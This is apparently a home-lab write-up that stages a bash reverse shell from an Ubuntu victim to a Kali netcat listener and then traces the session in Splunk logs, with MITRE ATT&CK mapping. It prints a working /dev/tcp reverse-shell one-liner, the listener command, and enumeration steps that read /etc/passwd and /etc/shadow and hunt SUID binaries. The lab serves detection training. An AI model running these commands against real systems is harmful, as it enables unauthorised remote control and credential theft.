# Reverse Shell

## Description
A reverse shell is a technique where a compromised target connects back to the attacker, granting them remote control over the system. In this case, we will use bash to start an interactive session that redirects the input and output towards the host.

## Objective
To simulate an attacker gaining remote access to a victim's machine through a reverse shell. This will test the detection capabilities in Splunk by analyzing command executions and inbound connections

## Tool Used

- `nc` - Netcat (network communication tool)
- `bash` for crafting payload

## Command Breakdown (Victim/Ubuntu)
```
bash -i >& /dev/tcp/192.168.64.2/4444 0>&1
```
- **bash** - Starts a Bash shell
- **-i** - Interactive mode, this allows the attacker to execute commands in real time
- **>&** - Redirects standard output (stdout) and standard error (stderr) to the same place
- **/dev/tcp/192.168.64.2/4444** - This is a special device from bash that opens a TCP connection to the attacker `192.168.64.2` through the port 4444
- **0>&1** - Redirects the standard input (stdin) so that it also passes through the connection

## Command Breakdown (Attacker/Kali)
```
nc -lvnp 4444
```
- **nc** - Netcat , A network tool that sends/receives data through TCP or UDP
- **l** - (listen) - Puts Netcat in listening mode, waiting on incoming connections
- **v** (verbose) - Shows more details about what is happening. (IP, State of connection, etc.)
- **n** (numeric) - Prevents making DNS resolutions; uses IP addresses directly to be faster
- **p 4444** (port) - Specifies the port that we are going to listen to.

## Reverse Shell Proof






Kali `nc` is executed first to open the port and then Ubuntu's `bash` command connects to the open port. 



We can see the successful connection from the IP `192.168.64.3` (Ubuntu) and we can see that our command line name has changed from **elyjaiah@kali** to **elyjaiah@canton-de-panda**.

`whoami` - See what user we are operating under

`id` - See the **UID** (UserID) , **GID** (GroupID) , and user groups

`hostname` - Find out the host name

`uname -a` - See the operating systems version
- **Kernel:** 6.8-0-79 Ubuntu
- **Architecture:** x86_64 (64-bit)
- **Hostname:** canton-de-panda
- **Why it matters:** Documents the platform where the tests were executed. (reproducibility)

`pwd` - See our current location in the system



`cat /etc/passwd` - See registered users




`cat /etc/shadow` - This is why in the Ubuntu screenshot a password was asked for. For demonstration purposes , I escalated privileges with  `sudo` access to see the hashed passwords.



`netstat -tuln` - To see open ports and active connections
- t - TCP Connections
- u - UDP Connections
- l - listening sockets
- n - Shows numbers instead of **DNS** names

`ip a` - See the IP addresses of the system
- **1 lo:** - loopback `127.0.0.1` (self-reference / local traffic only) 
- **enp0s1** - This is the main network connection that the device is using to connect to other devices in the internet. **IPv4** `192.168.64.3/24`, dynamic (DHCP - Automating assignment of IP addresses / other config details).
- **docker0** - Docker bridge with an internal IP `172.17.0.1/16`




`sudo -l` - See what commands can be run by sudo

`find / -perm -4000 2>/dev/null` - 
Search SUID (Special User) files that could possibly escalate privileges.



A connection was failed as I tried to connect from this reverse shell to my own personal mac

`exit` - This command fully exits the attacker from the reverse shell to not leave any tracks.

## Splunk Logs

### Pre Reverse-Shell command

After executing the commands in reverse shell, we used Splunk to validate that the forwarder `Kali` successfully shipped logs and that it would show up in the SIEM / Splunk.

```
sudo ufw logging full
```

**ufw** - Firewall of Kali/Ubuntu based en iptables. 

**iptables** - A command line too in linux that configures the firewalls rules. 

**logging full** - Tells the firewall to log all of the allows / blocked traffic with the most detail. 

### Actual Logs 
The following logs were captured during the same time frame of the revers shell execution. However, different SPL queries were applied to illustrate multiple perspectives of how the traffic can be analyzed with splunk .  


```
index=* host="kali" DPT=4444
```



This filters everything that has passed through the forwarder from the port 4444.


- **SRC (Source IP Address) - 192.168.64.3** = The victim machine (Ubuntu) that initiated the reverse shell.

- **DST (Destination IP Address) - 192.168.64.2** = The attacker machine (Kali) that received the connection

- **SPT (Source Port) - 48010** = Random ephemeral port chosen by Ubuntu to start the session

- **DPT (Destination Port) - 4444** = The listening port on Kali where Netcat was waiting

- **PROTO=TCP (Protocol)** = Communication protocol used for the reverse shell. 


```
index=* SRC=192.168.64.3 DST=192.168.64.2
```


Shows the victim (Ubuntu) connecting to the attacker (Kali)



- **SRC - 192.168.64.3** = Ubuntu (victim) initiating traffic to Kali

- **DST - 192.168.64.2** = Kali (attacker) receiving the traffic

- **SPT - 9997** = This is the port of the Splunk Forwarder. 

- **DPT - 60700** = Destination ephemeral port observed during the TCP session. This shows that reverse shells may use multiple ports beyond the initial listener. 

- **PROTO - TCP** = The protocol keeps being TCP


```
index =* SRC=192.168.64.2 DST=192.168.64.3
```
Shows what Kali responds back to. (The active shell)





- **SRC - 192.168.64.2** = The attacker (Kali) responding to the victim's reverse shell.

- **DST - 192.168.64.3** =  The victim (Ubuntu) is receiving the traffic 

- **SPT - 45722** = Origin port from Kali, that responds to a higher port

- **DPT - 1514** = The Destination port in Ubuntu, this is randomly assigned to handle this session

- **PROTO - TCP** = The protocol used for communication.


```
index =* host="kali" PROTO=TCP
```
 This confirms that everything was via TCP, reaffirming the reverse shell.






- **SRC - 192.168.64.3**  = The victim is initiating the connection

- **DST - 192.168.64.2** = The Destination ip that is receiving the connection (Kali)

- **SPT - 9997** = Random source port chosen by Ubuntu for this specific session.(This is the ephemeral port although `9997` is also Splunk's default receiving port.)

- **DPT - 36036** = The ephemeral  destination port that is randomly assigned to Kali . 

- **PROTO - TCP** = This is the protocol that was used for the connection. 


## MITRE ATT&CK
- **Tactics** - `Execution (TA0002) / Command and Control (TA0011)` - attacker executes commands and keeps a remote channel.

- **Techniques** - `Command and Scripting Interpreter (T1059)` - use of shell interpreters to run commands

- **Sub-Technique:** - `T1059.004` - Unix Shell (bash reverse shells)

- **Detection Guidance:** - Monitor command executions and look for suspicious command patterns. From the Network perspective outbound connections should be monitored among uncommon external ports.


- **Recommended Respond** - Isolate the host from the network which would prevent C2, collects memory / logs for IOC hunting, and restore from a protected back-up . 

### Summary

Across the four Splunk queries, we confirmed the activity of the reverse shell by analyzing the traffic between the victim (`Ubuntu`, 192.168.64.3) and the attacker (`Kali`, 192.168.64.2).This proves that Splunk can correlate both attacker and victim perspectives to fully reconstruct the reverse shell session.

- **Port-based filter (DPT=4444)**: Verified the reverse shell connection through the listening port of the attacker (4444) with Ubuntu as the source

- **Victim-to-attacker traffic (SRC=192.168.64.3 → DST=192.168.64.2)**: Showed Ubuntu initiating the connection using ephemeral source ports.

- **Attacker-to-victim traffic (SRC=192.168.64.2 → DST=192.168.64.3)**: Confirmed Kali's responses back to ubuntu , keeping the shell active

- **Protocol filter(PROTO=TCP)**: Validated that all communication occurred over TCP, that is consistent with reverse shell behavior.